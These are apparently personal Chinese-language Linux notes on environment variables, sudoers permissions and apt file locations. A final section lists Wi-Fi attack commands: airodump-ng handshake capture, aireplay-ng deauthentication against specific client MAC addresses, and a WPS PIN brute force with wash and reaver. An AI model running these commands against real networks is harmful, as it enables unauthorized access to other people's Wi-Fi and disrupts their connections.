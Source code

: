 启用环境变量

```bash
source /etc/profile
```

但是未永久生效

设置开启自动source

vi  \~/.bashrc

![](2022-05-24-22-08-17-image.png)

![](2022-05-24-22-09-44-image.png)

### linux sudoers文件

这个文件是记录root用户权限的，权限必须是只读，如果改了，则再也不能切换root用户。所以在切换普通用户之前要把权限改回来。

如果是wsl改不回来了，可以在win中创建一个只读文件传进去。

### apt

apt命令安装的tomcat，它的很多组件是分开存储的。  

下载的软件的存放位置：/var/cache/apt/archives  
安装后软件的默认位置：/usr/share  
可执行文件位置：/usr/bin  
配置文件位置：/etc  
lib文件位置：/usr/lib

### linux 抓包

#scan wifi list
airodump-ng wlan0mon

#capture wifi    
airodump-ng --bssid F4:83:CD:B5:84:19 -c 1 -w /home/ wlan0mon 

#open another terminal,break a link

aireplay-ng -0 8 -c 66:9C:A1:A0:38:9F -a F4:83:CD:B5:84:19 wlan0mon
aireplay-ng -0 8 -c 14:16:9E:3A:EA:C7 -a F4:83:CD:B5:84:19 wlan0mon
aireplay-ng -0 8 -c 28:02:D8:06:FB:B6 -a F4:83:CD:B5:84:19 wlan0mon

#pin 
airodump-ng wlan0mon
#scan wps
wash -i wlan0mon
#attack
reaver -i wlan0mon -b (bssid) -vv -c (CH) 
